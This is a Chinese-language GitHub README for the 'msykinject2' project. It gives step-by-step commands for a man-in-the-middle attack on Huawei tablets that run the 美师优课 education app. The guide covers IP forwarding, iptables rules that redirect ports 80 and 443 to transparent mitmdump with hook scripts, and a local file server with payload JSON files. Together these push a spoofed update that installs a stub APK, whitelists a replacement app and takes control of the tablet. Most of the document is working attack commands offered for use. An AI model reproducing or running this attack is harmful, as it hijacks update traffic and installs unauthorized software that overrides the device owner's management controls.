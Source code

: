 # msykinject2

两年前，本程序成功利用**非强制加密https**成功实现免设置代理和证书直接进行中间人攻击的实例.到2023年6月17日，此方法**仍然有效**

### 概述

在装有**美师优课**的华为平板上通过修改更新，安装相同包名的lspdemo-stub，启动后向平板发生白名单广播（会被瞬间卸载），写入lspdemo主程序的白名单，再次进行更新替换安装lspdemo-bronya从而控制平板。

### 环境

可以正常上网的linux机器 wifi网卡

**注意**:以下均在su权限下执行



### 步骤：

0.安装python3(如果已经安装可以跳过本步)

```shell
sudo apt-get update
sudo apt-get install python-is-python3
```

1.电脑端设置允许流量转发

注：此步骤执行过就不需要每次执行。

```shell
sysctl -w net.ipv4.ip_forward=1
sysctl -w net.ipv6.conf.all.forwarding=1
sysctl -w net.ipv4.conf.all.send_redirects=0
```

2.开启wifi热点 

在`ipconfig`中找到对应的**wifi热点**的网卡 比如说我的是`wlo1`的网卡

在这两行中，把`wlo1`改成自己的wifi热点网卡名

```shell
iptables -t nat -A PREROUTING -i wlo1 -p tcp --dport 80 -j REDIRECT --to-port 8888
iptables -t nat -A PREROUTING -i wlo1 -p tcp --dport 443 -j REDIRECT --to-port 8888
```

----

以下步骤需要掌握一定基础

----

3.在你的应用商店里找到可以卸载的app卸载一个，并且知道它的包名。

在[releases](https://github.com/ljlVink/LinspirerDemo/releases) 找到preloader-stub修改包名，重新打包签名，并且下载`lspdemo_bronya.apk`**一并放到本目录**

3.用一个文件服务器在内网开放。新开个终端运行 fserver_

注:如果不信任此二进制文件_fserver，可以在fserver目录中自行编译 命令:  `CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags "-s -w"`


```
./_fserver
```

此时你会看到类似内容

```
file server is running at xxx
```

xxx是对应的ip地址

4.修改payloadx.json

复制xxx对应的ip地址打开**payload0.json**找到'addr'项目

```
"addr": "http://xxx/flie/stub.apk",
```

xxx改成自己的ip地址，stub改成你对应的preloader-stub的文件名。相同方法在**payload1.json**同样改成对应lspdemo_bronya的文件名

5.平板连接热点

**6.运行mitmdump(1/2)。**

```shell
./mitmdump --mode transparent -s Install_stub.py -p 8888
```

此时打开msyk,如果没问题的话,控制台会接收到类似`hook success`的字样,并且收到更新。点击下载，**注意安装后立即点打开，必须要闪一下界面退回到桌面!!，不闪界面被卸载都是失效!! 我在这里通常试了10几次左右才行**


```
会出现的问题：

1.不显示更新字样，并且终端无hook success显示：

检查第二步，网卡是不是选错了。

2.终端有hook success显示，但是下载不读条。

检查文件服务器可用性，比如说用浏览器下载以下改到payload.json的链接是否可用。

3.第一步确实没错，但是终端疯狂显示tls handshake failed.

不用下一步了，本项目失效。
```

按下ctrl+c停止程序。

6.运行mitmdump(2/2)。

```shell
./mitmdump --mode transparent -s Install_main.py -p 8888
```

此时打开msyk,如果没问题的话,控制台会接收到类似`hook success`的字样,并且收到更新。点击下载安装启动lspdemo(不会被卸载)，**lspdemo如果安装失败，请重复上一步**


